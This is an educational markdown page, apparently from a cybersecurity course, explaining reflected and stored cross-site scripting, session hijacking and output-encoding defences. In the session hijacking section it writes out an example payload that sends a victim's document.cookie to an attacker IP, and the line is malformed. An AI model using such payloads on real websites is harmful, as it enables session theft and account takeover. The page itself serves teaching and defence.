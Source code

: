## WEB
# Cross Site Scripting

<div align="center">
 <video src="https://github.com/alphyos/CyberStart-2023/assets/116646389/9f1402b2-b229-4163-b1ca-36abf864d7cb" width="800" />
</div>

# XSS (Cross Site Scripting)

Here we cover the concept of cross site scripting, or as it is more broadly known 'XSS'. It is very actively exploited as it can be a tough vulnerability for website owners to stay on top of, and can affect many areas of a web app. It's often caused by having poor filtering of user provided data and allowing an attacker to get JavaScript code to execute in a user's browser - often providing access to their account, or redirecting them to malicious code. It can seem like an ongoing game of site owners cleaning XSS vulnerable output and an attacker finding another vulnerable area, or a more creative workaround to get it working again.

An example vulnerable point may be a name which is part of a querystring within a URL, eg `https://example.com?name=Bob` but rather than provide "Bob" you might be able to provide malicious code instead, so the URL is `https://example.com?name=<script>alert(1);</script>`. If visiting this URL you see an alert message pop up with `1` as the message you can be pretty sure you found a vulnerable area. This is a basic example and tools exist to try 1000's of different variations across a site to find obscure vulnerable areas.

# Session Hijacking

With proof of a vulnerability and if the site has a [session cookie](CookiesAndSessions2.8.md), an attacker could craft a link to provide to a victim somehow (perhaps via email or messenger), which includes injected code to steal their session cookie value; and so will be able to 'hijack' their session. To demonstrate this, if the JavaScript portion of the URL instead contained say

`<script>document.location='https://1.268.3.5 data='%2bdocument.cookie</scr`

and the attacker was listening for incoming connections on that IP, they'd just have to wait for incoming cookie data when the victim clicked the link. As soon as the data comes in, they can copy the session cookie name & key value into their own browser to then have the same session as the victim, effectively joining them in their session and having access to their account, personal information and more!

# Stored XSS

The above is an example of **Reflected XSS** where the server reflects an attack back to the user via some provided data. Another common type of XSS is **Stored XSS**. This is where the attacker is able to get the web app to store their attack in a persistent store, such as a database. There's then no need to try to send links to anyone; whoever visits the site will have it triggered for them. One vulnerability could lead to thousands of other users on the site being compromised.

These attacks often succeed as user's typically trust the websites they're visiting, and don't consider that an attacker's malicious code may be delivered to them from the site.

# Convincing Redirects

Aside from joining the victim in their session to have joint access to their account, the attacker may instead provide a link which instead of stealing their cookie information, shows a convincing warning message. Having an alert show on a site the victim trusts may give them the confidence that the site is advising and helping them, and proceed to download malware or other malicious code. If successful, the attacker can then use this to get a foothold on their computer.

>Browsers have gotten better at detecting XSS vulnerabilities as it's such a huge problem. However, website owners can protect themselves by running security tools to check for XSS vulnerabilities and of course manually confirming user provided code doesn't have XSS issues when output on a page.

# Cleaning User Data to Prevent XSS

Filtering user data when initially provided is a common approach to preventing XSS, but it can be tricky: we may accidentally remove characters that are valid, for example an apostrophe in the name *Tom O'Brien*, or the requirements for the sanitised data may change after the data has already been collected.

Rather than trying to filter user data on input, current best practices instead suggests accepting user data largely as-is, knowing that it is untrustworthy, and cleaning user data when output to the page. This allows for much more focused cleaning depending on the context, or where the user data is being used.

A common question is "How do you clean XSS on output?". Many frameworks offer simple cleaning functions, but it's possible to protect yourself if your framework does not offer this or you don't use a framework. While not bulletproof for all unicode character sets (e.g. UTF-16 rather than the more common UTF-8), there are 5 contexts you should clean within - HTML, Attribute, JavaScript, CSS and URL, each with their own requirements. See the [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for more info.

### <div dir="rtl">[→ Next: 2.12 Filters In Web Applications](FiltersInWebApplications2.12.md)
